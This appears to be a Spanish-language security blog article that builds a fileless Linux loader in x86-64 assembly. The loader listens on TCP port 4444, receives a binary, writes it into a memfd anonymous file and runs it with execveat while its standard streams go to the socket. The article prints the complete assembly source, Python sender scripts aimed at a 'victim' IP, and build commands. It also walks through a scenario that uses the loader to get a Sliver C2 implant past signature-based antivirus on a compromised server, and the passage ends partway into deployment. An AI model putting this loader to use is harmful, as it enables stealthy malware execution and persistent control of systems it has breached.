





<div class="article-header">
<h1>Fileless Loader</h1>
<span class="article-meta">17/03/2026 · 60 min</span>
</div>

Fileless Loader implementado en ensamblador x86-64. Usando únicamente syscalls, sin dependencias.

---

!!! warning "Uso responsable"
    El contenido de este sitio web se publica **exclusivamente con fines educativos e informativos**. El autor **no promueve, respalda ni se hace responsable** del uso indebido o ilegal de la información aquí expuesta. Cualquier acción realizada a partir de este contenido debe llevarse a cabo **únicamente** en entornos controlados, sistemas propios o **con autorización expresa y verificable** del propietario del sistema.

## Introducción

La **ejecución de un binario sin la necesidad de crear un fichero en el sistema de archivos** constituye uno de los fundamentos del malware moderno orientado a la evasión. La premisa es la siguiente, **si el ejecutable malicioso no llega a escribirse en disco, las soluciones de seguridad basadas en el análisis del sistema de archivos**, como los antivirus, los EDR con capacidades de detección estática o los IDS centrados en filesystem, **carecen de una superficie directa sobre la que actuar**.

La técnica detallada en este artículo explota la capacidad ofrecida por el kernel de Linux para la creación y ejecución de ficheros anónimos respaldados únicamente por memoria.

## Flujo de Ejecución

El flujo completo, desde la conexión entrante hasta la ejecución del binario en memoria, es el siguiente:

1. **Punto de entrada.** Se crea un socket TCP y se pone en modo escucha a la espera de conexiones entrantes. Cuando llega una, se acepta y se genera un canal de comunicación con el cliente.
2. **Creación del proceso hijo.** Para no bloquear al *loader*, se bifurca el proceso en este momento. El padre cede la conexión y vuelve inmediatamente a esperar la siguiente. El hijo se queda con ella y continúa el flujo.
3. **Desvinculación de la sesión por parte del hijo.** El hijo se separa de cualquier terminal o sesión activa para operar de forma completamente independiente al padre.
4. **Recepción del tamaño del binario.** El cliente envía el tamaño en bytes del ejecutable que va a transmitir. El hijo recibe esta información y la almacena.
5. **Creación del fichero anónimo.** Este fichero residirá únicamente en memoria e inicialmente se encuentra vacío.
6. **Expansión del fichero anónimo.** El fichero anónimo se expande al tamaño exacto del binario que se va a recibir (dato obtenido en el paso 4).
7. **Mapeo compartido entre proceso y fichero.**  Se mapea el fichero en el espacio de direcciones del proceso hijo de forma que cualquier escritura en esa región de memoria quede reflejada directamente en el fichero.
8. **Recepción del binario.** El hijo lee el contenido del binario desde el socket y lo escribe en la región mapeada. Al hacerlo, el fichero anónimo queda escrito simultáneamente con el contenido del ejecutable.
9. **Eliminación del mapeo.** La región de memoria compartida ya ha cumplido su función en este punto, por lo que se elimina del espacio de direcciones del proceso hijo (el fichero anónimo permanece intacto).
10. **Redirección de I/O al socket.** Se redirigen `stdin`, `stdout` y `stderr` del proceso al socket del cliente, de forma que cualquier entrada o salida del binario ejecutado viaje directamente por la conexión de red.
11. **Se ejecuta el binario en memoria.** Esta operación se realiza apuntando directamente al descriptor de archivo que identifica al fichero anónimo.

Puedes visualizar el flujo de ejecución con mayor detalle [aquí](RAZOR/flowchart_loader.html).

## Explicación del Loader Paso a Paso

Esta sección detalla las syscalls involucradas en cada paso, los argumentos que esperan, las decisiones de implementación y las restricciones del kernel que condicionan el diseño.

### **Paso 1: Punto de entrada**

Para que el *loader* pueda recibir binarios a través de la red necesita primero establecer un punto de entrada, es este caso, un socket TCP al que el cliente pueda conectarse. Esto implica tres pasos encadenados: 

1. **`socket`** crea el extremo de comunicación y devuelve un file descriptor que lo identifica. Se le indica que trabaje con direcciones IPv4 (`AF_INET`) y que use el protocolo orientado a conexión TCP (`SOCK_STREAM`). 

    ```nasm
        ; SOCKET
        mov rax, 41   ; Número de syscall (socket)
        mov rdi, 2    ; Familia de direcciones (AF_*) -> AF_INET == 2
        mov rsi, 1    ; Tipo de socket (SOCK_*) -> SOCK_STREAM == 1
        xor rdx, rdx  ; Protocolo (0 = por defecto)
        syscall 

        ; ----------------------------------
        mov r12, rax   ; FD del socket    -
        ; ----------------------------------
    ```

2. **`bind`** asocia el socket con una dirección y puerto, establecidos mediante la estructura `sockaddr_in` para IPv4. Sin esta llamada, el socket existe pero no tiene una dirección asignada (el cliente no sabe a dónde conectarse).

    ```nasm
    ; Sección .data

    ; Set de la estructura sockaddr_in
        sockaddr_in:
            dw 2                ; sin_family = AF_INET
            dw 0x5C11           ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11)
            dd 0x00000000       ; sin_addr = 0.0.0.0 (acepta desde todas las interfaces de red)
            dq 0                ; sin_zero (padding)
        
        
    ; Disposición en memoria (16 bytes):
    ;
    ;  02 00  5C 11  00 00 00 00  00 00 00 00 00 00 00 00
    ;  └──┘   └──┘   └─────────┘  └──────────────────────┘
    ;  0-1    2-3       4-7               8-15
    ;  Fam    Puerto    IP              Padding
    ```

    ```nasm
        ; BIND
        mov rax, 49                  ; Número de syscall (bind)
        mov rdi, r12                 ; File Descriptor del socket 
        lea rsi, [rel sockaddr_in]   ; Puntero a struct sockaddr con la dirección local
        mov rdx, 16                  ; Tamaño de la estructura de dirección en bytes
        syscall
    ```

3. **`listen`** marca un socket como pasivo, indicando al kernel que este socket se usará para aceptar conexiones entrantes en lugar de iniciar conexiones salientes.

    ```nasm
        ;LISTEN
        mov rax, 50           ; Número de syscall (listen)
        mov rdi, r12          ; File Descriptor del socket
        mov rsi, 1            ; Tamaño máximo de la cola de conexiones pendientes
        syscall
    ```

En este punto el socket está configurado y en escucha, pero todavía no hay ninguna conexión activa.

`accept` bloquea la ejecución hasta que haya una conexión pendiente en la cola. En ese momento, crea un nuevo socket conectado y devuelve el file descriptor que lo referencia, dejando el socket original libre para seguir aceptando conexiones.

```nasm
; accept_loop permitirá al loader atender múltiples conexiones
accept_loop:

		;ACCEPT
    mov rax, 43    ; Número de syscall (accept)
    mov rdi, r12   ; Descriptor del socket en escucha (tras bind + listen)
    xor rsi, rsi   ; Puntero a struct sockaddr donde se almacenará la dirección del cliente (o NULL)
    xor rdx, rdx   ; Puntero a socklen_t con el tamaño del buffer addr (o NULL)
    syscall

    ; ----------------------------------------
    mov r13, rax  ; FD del socket conectado  -
    ; ----------------------------------------
```

### **Paso 2: Creación del proceso hijo**

Si el proceso se quedara gestionando cada binario entrante de forma secuencial, no podría aceptar una nueva conexión hasta que la ejecución de la carga anterior haya terminado. La solución es bifurcar el proceso en el momento en que se recibe una nueva conexión, de modo que el padre vuelve inmediatamente al bucle de escucha y el hijo se encarga de la carga y ejecución de forma independiente.

Para esto, usaremos `clone3` en lugar del `fork` clásico. `clone3` no acepta flags directamente como argumento, sino que opera sobre una `struct clone_args` de 88 bytes que describe con precisión el comportamiento del proceso hijo. 

```nasm
    ; Sección .data
    
    ; Argumentos para definir el clonado del proceso
    ; struct clone_args (88 bytes)
    clone_args:
        dq 0                ; flags
        dq 0                ; Puntero donde almacenar el pidfd (si CLONE_PIDFD)
        dq 0                ; Puntero donde escribir el TID del hijo (si CLONE_CHILD_SETTID)
        dq 0                ; Puntero donde escribir el TID en el padre (si CLONE_PARENT_SETTID)
        dq 17               ; Señal a enviar al padre cuando el hijo termina (ej: SIGCHLD = 17)
        dq 0                ; Dirección base de la pila del hijo
        dq 0                ; Tamaño de la pila del hijo
        dq 0                ; Puntero a la estructura TLS (si CLONE_SETTLS)
        dq 0                ; Puntero a array de PIDs forzados por namespace
        dq 0                ; Número de elementos en set_tid
        dq 0                ; FD de cgroup destino (si CLONE_INTO_CGROUP)
        

```

```nasm
; CLONE3
    mov rax, 435                     ; Número de syscall (clone3)
    lea rdi, [rel clone_args]        ; Puntero a struct clone_args
    mov rsi, 88                      ; Tamaño de la estructura clone_args
    syscall

    cmp rax, 0
    jg accept_loop    ; rax > 0  →  PADRE: volver a esperar
                      ; rax == 0 → HIJO: continúa
```

### **Paso 3: Desvinculación de la sesión por parte del hijo**

El proceso hijo hereda del proceso padre la sesión y el grupo de procesos al que pertenece, así como la terminal de control asociada. Esto supone un problema, si esa terminal se cierra, el kernel envía `SIGHUP` a todos los procesos del grupo, lo que terminaría la carga en curso.

`setsid` resuelve esto creando una nueva sesión, convirtiendo al hijo en su único miembro y líder. Al no pertenecer ya a ninguna sesión con terminal controladora, el hijo queda completamente aislado y puede operar de forma autónoma.

```nasm
; SETSID
    mov rax, 112    ; Número de syscall (setsid)
    syscall
```

### **Paso 4: Recepción del tamaño del binario**

Para crear el fichero anónimo con el tamaño correcto y mapearlo en memoria, el loader necesita saber de antemano cuántos bytes ocupa el binario que va a recibir. El cliente enviará este dato antes que el propio payload, en este caso, como un entero de 64 bits (8 bytes) en little-endian.

`recvfrom` lee datos del socket conectado y los escribe en un buffer. 

```nasm
; Sección .bss
    buff_lg: resq 1    ; Buffer donde almacenar el tamaño del binario (64 bits)
```

```nasm
; recvfrom puede devolver menos bytes de los solicitados, el bucle 
; recv_lg acumula en un registro el offset hasta completar los 8 bytes esperados.

recv_lg:

    add r15, rax

    ;RECVFROM
    mov rax, 45             ; Número de syscall (recvfrom)
    mov rdi, r13            ; Descriptor del socket
    lea rsi, [rel buff_lg]  ; Dirección del buffer donde almacenar datos
    add rsi, r15
    mov rdx, 8              ; Tamaño máximo del buffer (bytes a recibir)
    sub rdx, r15
    xor r10, r10            ; Flags de recepción (MSG_*)
    xor r8, r8              ; Puntero a struct sockaddr (o NULL)
    xor r9, r9              ; Puntero a socklen_t (o NULL)
    syscall

    cmp rax, 0
    jg recv_lg
```

### **Paso 5: Creación del fichero anónimo**

Con el tamaño del binario ya conocido, el siguiente paso es crear al contenedor que lo almacenará. Se necesita un fichero sobre el que sea posible operar pero que no deje ningún rastro en el sistema de archivos. Para ello, podemos hacer uso de la funcionalidad ofrecida directamente por el kernel de Linux.

`memfd_create` **crea un archivo anónimo en memoria** y devuelve un file descriptor que lo identifica. El archivo reside en un montaje interno de `tmpfs` del kernel (no en ningún filesystem visible al usuario) y está respaldado exclusivamente por RAM (y swap si es necesario). 

!!! info ""
    Se utiliza el flag `MFD_EXEC (0x0010)` para marcar explícitamente que el fichero tendrá contenido ejecutable.

```nasm
; Sección .data
    memfd_name db '', 0    ; Nombre del memfd
```

```nasm
    ;MEMFD_CREATE
    mov rax, 319                   ; Número de syscall (memfd_create)
    lea rdi, [rel memfd_name]      ; Puntero a C-string con el nombre (informativo)
    mov rsi, 0x0010                ; Flags de comportamiento (MFD_*)  MFD_EXEC == 0x0010
    syscall

    ; --------------------------------
    mov r14, rax   ; FD del memfd    -
    ; --------------------------------
```

### **Paso 6: Expansión del fichero anónimo**

Un fichero recién creado con `memfd_create` tiene tamaño cero (0 bytes). Esto supone un problema para el siguiente paso, ya que `mmap` necesita páginas concretas sobre las que establecer el mapeo y un fichero vacío no tiene ninguna asignada.

`ftruncate` establece el tamaño de un archivo referenciado por un file descriptor. Si el tamaño especificado es menor que el actual, el contenido más allá de ese punto se pierde. Si es mayor, el archivo se extiende con bytes a cero.

Tras esta llamada, el fichero tiene el tamaño correcto y las páginas necesarias están reservadas, listas para ser mapeadas y escritas.

```nasm
    ; FTRUNCATE
    mov rax, 77                  ; Número de syscall (ftruncate)
    mov rdi, r14                 ; Descriptor de archivo
    mov rsi, [rel buff_lg]       ; Nuevo tamaño en bytes
    syscall
```

### **Paso 7: Mapeo compartido entre proceso y fichero**

Con el fichero anónimo creado y dimensionado, el siguiente paso es mapear su contenido en el espacio de direcciones del proceso hijo mediante `mmap`, que devuelve una dirección virtual desde la que operar directamente sobre él.

La opción de mapeo depende del valor de una flag:

- Con `MAP_SHARED`, proceso y fichero comparten las mismas páginas físicas de la page cache, de modo que cualquier escritura en la región mapeada queda reflejada en el fichero de forma inmediata (la que nos interesa).
- Con `MAP_PRIVATE`, el kernel aplica copy-on-write, las escrituras generan una copia privada visible solo para el proceso, dejando al fichero subyacente sin modificar.

```nasm
		;MMAP
    mov rax, 9              ; Número de syscall (mmap)
    mov rdi, 0              ; Dirección sugerida (0 para que el SO lo elija)
    mov rsi, [rel buff_lg]  ; Tamaño en bytes a reservar (ej. 4096 = 1 página)
    mov rdx, 3              ; Permisos de protección (flags PROT_*)  PROT_READ | PROT_WRITE = 0x3
    mov r10, 1              ; Opciones de mapeo (MAP_*)  MAP_SHARED  = 0x01
    mov r8, r14             ; File descriptor (para mapeo de archivo; -1 si no aplica)
    mov r9, 0               ; Offset dentro del archivo (múltiplo del tamaño de página)
    syscall
```

### **Paso 8: Recepción del binario**

Los datos se leen directamente desde el socket y se escriben en la región mapeada sin intermediarios. Dado que proceso y fichero comparten las mismas páginas físicas de la page cache, la escritura en la región mapeada es simultáneamente una escritura en el fichero anónimo.

Al igual que con la recepción del tamaño, el bucle gestiona recepciones parciales hasta completar el total de bytes esperado.

```nasm
   mov r12, rax   ; RAX - Contiene la dirección base del bloque de memoria reservado
   xor r15, r15   ; R15 - Contiene el offset de la región de memoria compartida

recv_all:

    add r15, rax

    ;RECVFROM
    mov rax, 45               ; Número de syscall (recvfrom)
    mov rdi, r13              ; Descriptor del socket
    mov rsi, r12              ; Dirección del buffer donde almacenar datos
    add rsi, r15
    mov rdx, [rel buff_lg]    ; Tamaño máximo del buffer (bytes a recibir)
    sub rdx, r15
    xor r10, r10              ; Flags de recepción (MSG_*)
    xor r8, r8                ; Puntero a struct sockaddr (o NULL)
    xor r9, r9                ; Puntero a socklen_t (o NULL)
    syscall

    cmp rax, 0
    jg recv_all
```

Al terminar el bucle, el fichero anónimo contiene el binario al completo, listo para ser ejecutado.

### **Paso 9: Eliminación del mapeo**

Una vez que el binario está completo en el fichero anónimo, el mapeo compartido que vincula al proceso hijo con el fichero ya no es necesario. `munmap` libera esa región del espacio de direcciones.

```nasm
    ; MUNMAP
    mov rax, 11              ; Número de syscall (munmap)
    mov rdi, r12             ; Dirección base del mapping a eliminar
    mov rsi, [rel buff_lg]   ; Tamaño en bytes a desmapear
    syscall
```

### **Paso 10: Redirección de I/O al socket**

Antes de ejecutar el binario, es aconsejable redirigir `stdin`, `stdout` y `stderr` del proceso hijo al socket del cliente. Esto permitirá enviar la entrada al payload de forma remota y consultar su salida.

`dup3` duplica un file descriptor (FD) existente sobre otro número de FD específico, cerrando primero el FD destino si estaba abierto.Tras la llamada, ambos apuntan al mismo open file description (mismo offset y file status flags). 

Se ejecuta `dup3` en un bucle para redirigir los descriptores mencionados al socket del cliente:

```nasm
xor rsi,rsi     ; File Descriptor destino (0=stdin,1=stdout,2=stderr)
dup3:
    ; DUP3
    mov rax, 292    ; Número de syscall (dup3)
    mov rdi, r13    ; File Descriptor existente a duplicar
    xor rdx, rdx    ; Flags: 0 o O_CLOEXEC (0x80000)
    syscall
    inc rsi
    cmp rsi, 3
    jl dup3
```

| Iteración | RSI | Efecto |
| --- | --- | --- |
| 1 | 0 | `stdin` → socket del cliente |
| 2 | 1 | `stdout` → socket del cliente |
| 3 | 2 | `stderr` → socket del cliente |

Tras el bucle, toda la entrada y salida estándar del proceso hijo está vinculada al socket. Cuando `execveat` reemplace la imagen del proceso por la del binario cargado, este heredará los descriptores ya redirigidos, como resultado, cualquier escritura en `stdout` o `stderr` llegará al cliente a través de la conexión TCP y cualquier lectura desde `stdin` utilizará los datos enviados por el cliente.

### **Paso 11: Se ejecuta el binario en memoria**

El último paso es ejecutar el binario que ahora reside en el fichero anónimo. El problema es que `execve` requiere una ruta y el fichero anónimo no tiene ninguna. Aquí entra `execveat`.

`execveat` permite ejecutar un binario referenciado por un file descriptor. Cuando se utiliza la flag `AT_EMPTY_PATH` y se proporciona una cadena vacía como ruta, el kernel usa el FD como identificador del fichero a ejecutar.

```nasm
; Sección .data
    exec_path db '', 0     ; Empty path para que execveat ejecute FD
```

```nasm
    ;EXECVEAT
    mov rax, 322              ; Número de syscall (execveat)
    mov rdi, r14              ; Descriptor de directorio base (o AT_FDCWD, o FD del ejecutable)
    lea rsi, [rel exec_path]  ; Puntero a C-string con la ruta (puede ser "")
    xor rdx, rdx              ; Puntero a array de punteros a C-string (terminado en NULL)
    xor r10, r10              ; Puntero a array de punteros a C-string (terminado en NULL)
    mov r8, 0x1000            ; Flags de resolución (AT_*) AT_EMPTY_PATH = 0x1000
    syscall
```

## Código completo (fileless_loader.asm)

```nasm
section .data

    memfd_name db '', 0    ; Nombre del memfd
    exec_path db '', 0     ; Empty path para que execveat ejecute FD

    ; Argumentos para definir las propiedades del socket
    ; struct sockaddr_in (16 bytes)
    sockaddr_in:
        dw 2                ; sin_family = AF_INET
        dw 0x5C11           ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11)
        dd 0x00000000       ; sin_addr = 0.0.0.0 (acepta desde todas las interfaces de red)
        dq 0                ; sin_zero (padding)

    ; Argumentos para definir el clonado del proceso
    ; struct clone_args (88 bytes)
    clone_args:
        dq 0                ; flags     CLONE_PIDFD = 0x00001000
        dq 0                ; Puntero donde almacenar el pidfd (si CLONE_PIDFD)
        dq 0                ; Puntero donde escribir el TID del hijo (si CLONE_CHILD_SETTID)
        dq 0                ; Puntero donde escribir el TID en el padre (si CLONE_PARENT_SETTID)
        dq 17               ; Señal a enviar al padre cuando el hijo termina (ej: SIGCHLD = 17)
        dq 0                ; Dirección base de la pila del hijo
        dq 0                ; Tamaño de la pila del hijo
        dq 0                ; Puntero a la estructura TLS (si CLONE_SETTLS)
        dq 0                ; Puntero a array de PIDs forzados por namespace
        dq 0                ; Número de elementos en set_tid
        dq 0                ; FD de cgroup destino (si CLONE_INTO_CGROUP)

section .bss
    buff_lg: resq 1           ; Buffer donde almacenar el tamaño del binario (8 Bytes)

section .text

global _start
_start: 

; 1 - Creación del socket en modo escucha

    ; SOCKET
    mov rax, 41   ; Número de syscall (socket)
    mov rdi, 2    ; Familia de direcciones (AF_*)
    mov rsi, 1    ; Tipo de socket (SOCK_*), opcionalmente OR con flags
    xor rdx, rdx  ; Protocolo (0 = por defecto)
    syscall 

    ; ----------------------------------
    mov r12, rax   ; FD del socket    -
    ; ----------------------------------

    ; BIND
    mov rax, 49                  ; Número de syscall (bind)
    mov rdi, r12                 ; File Descriptor del socket 
    lea rsi, [rel sockaddr_in]   ; Puntero a struct sockaddr con la dirección local
    mov rdx, 16                  ; Tamaño de la estructura de dirección en bytes
    syscall

    ;LISTEN
    mov rax, 50           ; Número de syscall (listen)
    mov rdi, r12          ; File Descriptor del socket
    mov rsi, 1            ; Tamaño máximo de la cola de conexiones pendientes
    syscall

accept_loop:

    ;ACCEPT
    mov rax, 43    ; Número de syscall (accept)
    mov rdi, r12   ; Descriptor del socket en escucha (tras bind + listen)
    xor rsi, rsi   ; Puntero a struct sockaddr donde se almacenará la dirección del cliente (o NULL)
    xor rdx, rdx   ; Puntero a socklen_t con el tamaño del buffer addr (o NULL)
    syscall

    ; ----------------------------------------
    mov r13, rax  ; FD del socket conectado  -
    ; ----------------------------------------

; 2 - Creación del proceso hijo y desvinculación del padre

    ; CLONE3
    mov rax, 435                  ; Número de syscall (clone3)
    lea rdi, [rel clone_args]     ; Puntero a struct clone_args
    mov rsi, 88                   ; Tamaño de la estructura clone_args
    syscall

    cmp rax, 0
    jg accept_loop

    ; SETSID
    mov rax, 112    ; Número de syscall (setsid)
    syscall

; 3 - Recepción del tamaño en bytes del fichero

    xor r15, r15
    xor rax, rax

recv_lg:

    add r15, rax

    ;RECVFROM
    mov rax, 45             ; Número de syscall (recvfrom)
    mov rdi, r13            ; Descriptor del socket
    lea rsi, [rel buff_lg]  ; Dirección del buffer donde almacenar datos
    add rsi, r15
    mov rdx, 8              ; Tamaño máximo del buffer (bytes a recibir)
    sub rdx, r15
    xor r10, r10            ; Flags de recepción (MSG_*)
    xor r8, r8              ; Puntero a struct sockaddr (o NULL)
    xor r9, r9              ; Puntero a socklen_t (o NULL)
    syscall

    cmp rax, 0
    jg recv_lg

; 4 - Creación del fichero en tempfs por parte del hijo

    ;MEMFD_CREATE
    mov rax, 319                   ; Número de syscall (memfd_create)
    lea rdi, [rel memfd_name]      ; Puntero a C-string con el nombre (informativo)
    mov rsi, 0x0010                ; Flags de comportamiento (MFD_*)  MFD_EXEC = 0x0010
    syscall

    ; --------------------------------
    mov r14, rax   ; FD del memfd    -
    ; --------------------------------

; 5 - Preexpanción del fichero en tempfs al tamaño necesario (relleno a 0)

    ; FTRUNCATE
    mov rax, 77                  ; Número de syscall (ftruncate)
    mov rdi, r14                 ; Descriptor de archivo
    mov rsi, [rel buff_lg]       ; Nuevo tamaño en bytes
    syscall

; mmap con MAP_SHARED sobre un fd mapea páginas reales del fichero. 
; Si el fichero mide 0 bytes no hay páginas que mapear, el kernel rechaza la operación. 
; ftruncate preexpande el fichero al tamaño necesario, reservando esas páginas en tmpfs, 
; para que mmap tenga algo concreto sobre lo que operar. 

; 6 - Crear región de memoria compartida entre el proceso hijo y el fichero en tempfs

    ;MMAP
    mov rax, 9              ; Número de syscall (mmap)
    mov rdi, 0              ; Dirección sugerida (0 para que el SO lo elija)
    mov rsi, [rel buff_lg]  ; Tamaño en bytes a reservar (ej. 4096 = 1 página)
    mov rdx, 3              ; Permisos de protección (flags PROT_*)  PROT_READ | PROT_WRITE = 0x3
    mov r10, 1              ; Opciones de mapeo (MAP_*)  MAP_SHARED  = 0x01
    mov r8, r14             ; File descriptor (para mapeo de archivo; -1 si no aplica)
    mov r9, 0               ; Offset dentro del archivo (múltiplo del tamaño de página)
    syscall

; 7 - Se escribe el contenido recibido en la región de memoria compartida

    xor r12, r12
    mov r12, rax   ; RAX - Contiene la dirección base del bloque de memoria reservado
    xor r15, r15   ; R15 - Contiene el offset de la región de memoria compartida
    xor rax, rax

recv_all:

    add r15, rax

    ;RECVFROM
    mov rax, 45               ; Número de syscall (recvfrom)
    mov rdi, r13              ; Descriptor del socket
    mov rsi, r12              ; Dirección del buffer donde almacenar datos
    add rsi, r15
    mov rdx, [rel buff_lg]    ; Tamaño máximo del buffer (bytes a recibir)
    sub rdx, r15
    xor r10, r10              ; Flags de recepción (MSG_*)
    xor r8, r8                ; Puntero a struct sockaddr (o NULL)
    xor r9, r9                ; Puntero a socklen_t (o NULL)
    syscall

    cmp rax, 0
    jg recv_all

; 8 - Se desvincula al proceso hijo de la región de memoria compartida

    ; MUNMAP
    mov rax, 11              ; Número de syscall (munmap)
    mov rdi, r12             ; Dirección base del mapping a eliminar
    mov rsi, [rel buff_lg]   ; Tamaño en bytes a desmapear
    syscall

; 9 - Se redirige la stdin/stdout/stderr al socket

    xor rsi,rsi     ; File Descriptor destino (0=stdin,1=stdout,2=stderr)
dup3:
    ; DUP3
    mov rax, 292    ; Número de syscall (dup3)
    mov rdi, r13    ; File Descriptor existente a duplicar
    xor rdx, rdx    ; Flags: 0 o O_CLOEXEC (0x80000)
    syscall
    inc rsi
    cmp rsi, 3
    jl dup3

; 10 - Se ejecuta el contenido del fichero en tempfs

    ;EXECVEAT
    mov rax, 322              ; Número de syscall (execveat)
    mov rdi, r14              ; Descriptor de directorio base (o AT_FDCWD, o FD del ejecutable)
    lea rsi, [rel exec_path]  ; Puntero a C-string con la ruta (puede ser "")
    xor rdx, rdx              ; Puntero a array de punteros a C-string (terminado en NULL)
    xor r10, r10              ; Puntero a array de punteros a C-string (terminado en NULL)
    mov r8, 0x1000            ; Flags de resolución (AT_*) AT_EMPTY_PATH = 0x1000
    syscall

exit:
    ; EXIT
    mov rax, 60
    xor rdi, rdi  
    syscall

```

## Sender

Antes de transferir el binario, el cliente debe enviar su tamaño en un primer mensaje de longitud fija (8 bytes en little-endian). 

El siguiente script envía tanto el tamaño como el contenido:

```python
import socket
import struct
import sys

HOST = '192.168.18.244'   # IP de la víctima
PORT = 4444               # Puerto donde escucha el loader

with open(sys.argv[1], 'rb') as f:
    binary = f.read()

size = struct.pack('<Q', len(binary))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.sendall(size)
s.sendall(binary)

s.shutdown(socket.SHUT_WR)

print("[*] Esperando salida...\n")

try:
    while True:
        data = s.recv(4096)
        if not data:
            print("\n[!] Conexión cerrada por el servidor")
            break
        print(data.decode(errors='replace'), end='', flush=True)
except KeyboardInterrupt:
    print("\n[*] Saliendo...")
finally:
    s.close()

```

Si el binario a ejecutar no devuelve ninguna salida ni espera una entrada, se puede usar el siguiente script:

```python
import socket
import struct
import sys

HOST = '192.168.18.244'   # IP de la víctima
PORT = 4444               # Puerto donde escucha el loader

with open(sys.argv[1], 'rb') as f:
    payload = f.read()

size = struct.pack('<Q', len(payload))

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.sendall(size + payload)
    print(f"[+] Enviados {len(payload)} bytes")
```

## Compilación

```bash
# Compilar el loader (Máquina Atacante)
nasm -f elf64 fileless_loader.asm -o fileless_loader.o
ld fileless_loader.o -o fileless_loader

# Ejecutar el loader (queda en escucha en 127.0.0.1:4444) (Máquina Víctima)
./fileless_loader

# Enviar un binario al loader (Máquina Atacante)
python3 sender.py /<path>/<binary>

```

## Caso Práctico

Se ha comprometido un servidor web Linux explotando una vulnerabilidad de ejecución remota de comandos (RCE) que permite ejecutar comandos como `www-data`. El servidor dispone de una **solución de seguridad** con protección en tiempo real, **encargada de supervisar de forma continua la actividad en el sistema de archivos**. Este mecanismo analizará las operaciones de lectura, escritura y ejecución que se realicen sobre los archivos, con el objetivo de identificar comportamientos potencialmente maliciosos.

En particular, la solución incorpora **mecanismos de detección basados en firmas**, comparando los ficheros presentes o recién añadidos al sistema con una base de firmas asociadas a herramientas ofensivas y malware conocido. Cuando se detecta una coincidencia, el sistema procede a bloquear o poner en cuarentena el archivo, impidiendo su ejecución y reduciendo así el riesgo de compromiso del sistema.

**El objetivo es establecer un canal de Command & Control (C2) completo con la máquina comprometida**, que permita ejecutar comandos de forma interactiva, subir y descargar ficheros, pivotar a otros segmentos de red y mantener la persistencia. Para ello, se utilizará un implant de [Sliver](https://github.com/BishopFox/sliver). El implant es un binario ELF estático que, al ejecutarse, establece de forma autónoma una conexión cifrada (mTLS) de vuelta al servidor C2 del atacante. 

**Si se transfiere el implant directamente al disco de la víctima, la solución de seguridad lo detectará por su firma y lo eliminará antes de que llegue a ejecutarse**. Los implants de Sliver son detectados rápidamente por soluciones de seguridad debido a sus firmas estáticas.

El *loader* sobrepasa esta barrera explotando un concepto clave, **la separación de la infraestructura que inicia la ejecución del contenido ejecutado**. El *loader* en sí no contiene ninguna carga ofensiva: no hay shellcode embebido, ni exploits, ni cadenas sospechosas. Para un escáner basado en firmas es un binario limpio. El implante, por su parte, nunca toca el disco. Llega por red y se ejecuta directamente desde un fichero anónimo que solo existe como páginas en RAM, por lo que pasa desapercibido ante el motor de detección.

### Preparación

**Infraestructura C2**

En la máquina atacante (`192.168.18.245`), se inicia el servidor de Sliver y se genera el implante para Linux x86-64. Toda la configuración queda embebida dentro del binario.

```bash
# Iniciar Sliver (Máquina Atacante)
sliver-server

# Generar el implant (Máquina Atacante)
generate --mtls <sliver_lst_ip>:<sliver_lst_port> --os linux --arch amd64 --format exe --save <dst_path>
```



El resultado es un ELF estático que, al ejecutarse, establecerá una conexión mTLS de vuelta al C2. 

Antes de la ejecución del implante, recuerda tener el listener mTLS activo para recibir la conexión entrante.

```bash
# Iniciar listener mTLS
mtls --lport <sliver_lst_port>
```



**Loader**

Configuramos la dirección IPv4 y el puerto de escucha del *loader*. La estructura `sockaddr_in` del *loader* se configurará con la dirección `0.0.0.0` y el puerto `4444`. La dirección `0.0.0.0` indica al kernel que el socket debe aceptar conexiones entrantes en cualquier interfaz de red disponible en la máquina, en lugar de restringirlo a una IP concreta. 

```nasm
; fileless_loader.asm (sección .data)

    sockaddr_in:
        dw 2                ; sin_family = AF_INET
        dw 0x5C11           ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11)
        dd 0x00000000       ; sin_addr = 0.0.0.0 (acepta desde todas las interfaces de red)
        dq 0                ; sin_zero (padding)

```

Compilamos el *loader*.

```bash
# Máquina atacante
nasm -f elf64 <loader.asm> -o <loader.o>
ld <loader.o> -o <loader>
```



### Despliegue del Loader

